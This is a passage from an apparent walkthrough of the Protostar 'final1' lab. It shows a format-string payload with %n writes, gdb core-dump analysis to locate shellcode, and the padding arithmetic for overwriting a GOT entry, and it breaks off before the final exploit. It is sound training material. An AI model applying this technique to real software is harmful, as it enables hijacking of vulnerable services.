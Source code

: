 In the syslog, this showed: 

```
Feb  5 00:03:58 protostar final1: Login from 127.0.0.1:36775 as [X#034¡#004#010#035¡#004#010#036¡#004#010#037¡#004#010] with password [Busername X]
Feb  5 00:03:58 protostar kernel: [986148.949635] final1[24854]: segfault at 30303030 ip 30303030 sp bffff9fc error 4
```

Now to debug as root, to find the start of the shellcode:

```
user@protostar:/opt/protostar/bin$ su
Password:
root@protostar:/opt/protostar/bin# gdb --quiet --core=/tmp/core.11.final1.24854
Core was generated by `/opt/protostar/bin/final1'.
Program terminated with signal 11, Segmentation fault.
#0  0x30303030 in ?? ()
(gdb) x/10s $esp
0xbffff9fc:      "\357\230\004\b\017"
0xbffffa02:      ""
0xbffffa03:      ""
0xbffffa04:      " \372\377\277\344\236\004\b\240\242\004\b \242\004\bF\374\377\277\364\177\375\267\230\372\377\277Login from 127.0.0.1:36775 as [X\034\241\004\b\035\241\004\b\036\241\004\b\037\241\004\b%15$n%16$n%17$n%18$n] with password [", 'A' <repeats 78 times>, "]\n"
0xbffffac6:      "\377\277(\033\376\267\021"
0xbfffface:      ""
0xbffffacf:      ""
0xbffffad0:      "\024\310\351\267\374\032\376\267\021{\234|\001"
0xbffffade:      ""
0xbffffadf:      ""
(gdb) x/1s 0xbffffac6-81
0xbffffa75:      'A' <repeats 78 times>, "]\n"
```

So now we know that we should be able to overwrite 0x0804a11c with 0xbffffa75 to make "syslog()" call our shellcode.  We just need to calculate the buffer lengths to get "0xbrffffa75" to actually show up instead of "0x30303030". 

```
(gdb) p 0x75 - 0x30
$1 = 69
(gdb) p 0xfa - 0x75
$2 = 133
(gdb) p 0xff - 0xfa
$3 = 5
(gdb) p 0x1ff - 0xfa
$4 = 261
(gdb) p 0xbf - 0xff
$5 = -64
(gdb) p 0x1bf - 0xff
$6 = 192
```

This tells us, that with our 4 "%n"s, we should be able to use buffer lengths of 69, 133, 261, and 192.  So let's wire that up: 
